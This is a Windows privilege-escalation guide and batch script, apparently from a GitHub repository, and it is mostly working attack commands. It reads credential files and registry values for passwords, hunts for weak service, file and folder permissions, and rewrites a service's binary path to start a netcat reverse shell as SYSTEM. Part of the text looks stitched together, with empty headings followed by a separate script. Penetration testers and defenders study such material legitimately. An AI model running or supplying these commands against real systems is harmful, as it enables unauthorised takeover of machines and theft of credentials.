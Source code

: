 # Windows Privilege Escalation Guide

Step-by-step guide to Windows privilege escalation.

## 1. SYSTEM INFORMATION + ACCOUNTS

```vb
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

## 2. NETWORKING

```vb
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano        
```

## 3. WINDOWS TASKS

## 4. QUICK WINS

## 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

echo ################################################################ 
echo PART 2: ENUMERATE NETWORKING
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> INTERFACES
ipconfig /all

echo >>>>>>>>>>>>>>>>>>>> ROUTING TABLE
route print

echo >>>>>>>>>>>>>>>>>>>> ARP CACHE TABLE
arp -A

echo >>>>>>>>>>>>>>>>>>>> ACTIVE CONNECTIONS + FIREWALL RULES
netstat -ano
netsh firewall show state
netsh firewall show config

echo ################################################################
echo PART 3: ENUMERATE WINDOWS TASKS                        
echo ################################################################
echo NOTE: TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.

echo >>>>>>>>>>>>>>>>>>>> SCHEDULED TASKS (VERBOSE)
schtasks /query /fo LIST /v

echo >>>>>>>>>>>>>>>>>>>> RUNNING PROCESSES / ASSOCIATED SERVICES
tasklist /SVC

echo >>>>>>>>>>>>>>>>>>>> STARTED WINDOWS SERVICES
net start

echo >>>>>>>>>>>>>>>>>>>> 3RD-PARTY DRIVERS
driverquery

echo ################################################################
echo PART 4: QUICK WINS
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> USER IS AN ADMINISTRATOR
echo NOTE: If your user is part of the "Administrators" group, you can easily get to SYSTEM by reconfiguring a service or creating a scheduled task with SYSTEM privs.
net user %username%

echo >>>>>>>>>>>>>>>>>>>> MISSING WINDOWS PATCHES
echo NOTE: WMIC is mostly not available to non-Administrators.
echo (1) Find Windows privesc exploits.
echo (2) Grep for their existence (using KB numbers) among the list of installed patches.
echo (3) See if any exploits are missing from the patch list.
echo (4) Use exploits and profit.

wmic qfe get Caption,Description,HotFixID,InstalledOn

echo >>>>>>>>>>>>>>>>>>>> HARDCODED CREDENTIALS IN CONFIGURATION FILES
type C:\sysprep.inf
type C:\sysprep\sysprep.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x2
dir /s *pass* == *cred* == *vnc* == *.config*

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x3 (.xml .ini .txt)
findstr /si password *.xml *.ini *.txt

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x4 (in registry)
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

echo >>>>>>>>>>>>>>>>>>>> "AlwaysInstallElevated" SETTING
echo This setting allows users of any priv to install .msi files as SYSTEM.
echo Both values need to = 1 to exploit this.

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

echo ################################################################
echo PART 5: DEEP-DIVE WINDOWS SERVICES, FILE/FOLDER PERMISSIONS
echo ################################################################

echo NOTE: FOR RESTARTING SERVICES OR BINARIES, TRY VARIOUS METHODS SUCH AS:
echo => net start
echo => sc start
echo => mysql> RESTART; (using service commands to restart)

echo >>>>>>>>>>>>>>>>>>>> WINDOWS SERVICES (MANUAL ENUM)
echo (1) Query windows service
echo CMD: sc qc [servicename]
echo (2) Check required privilege level for each service using accesschk.exe
echo CMD: accesschk.exe -ucqv UPNPHOST
echo (3) Find services which allow access for "Authenticated Users" (logged-in users). Also check which group your user belongs to.
echo CMD: accesschk.exe -uwcqv "Authenticated Users" *
echo (4) Re-configure services to execute a root-shell.
echo STEP 1: Change binary path to execute a reverse-shell
echo CMD: sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
echo STEP 2: Change password for service
echo CMD: sc config upnphost obj= ".\LocalSystem" password= ""
echo STEP 3: Start the service and execute your reverse-shell
echo CMD: net start upnphost

accesschk.exe -uwcqv "Authenticated Users" * /accepteula

echo >>>>>>>>>>>>>>>>>>>> FILE AND FOLDER PERMISSIONS

echo (1) Check for weak permissions "NT AUTHORITY\AUTHENTICATED USERS: <I> <M>".
echo CMD: icacls [file or folder path] | cacls [file or folder path] | accesschk.exe -dqv [file or folder path]
echo (2) For binaries that load with SYSTEM privileges, replace with your own binary.

echo Finding all weak folder permissions per drive
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwdqs "Authenticated Users" c:\

echo Finding all weak file permissions per drive
accesschk.exe -uwqs Users c:\*.* /accepteula
accesschk.exe -uwqs "Authenticated Users" c:\*.*

echo >>>>>>>>>>>>>>>>>>>> CHECK PATH SYSTEM VARIABLE (MANUAL ENUM)
echo NOTE: All non-default directories in root "C:\" will give WRITE access to the Authenticated Users group!!!

echo Look for non-default dirs: %path%

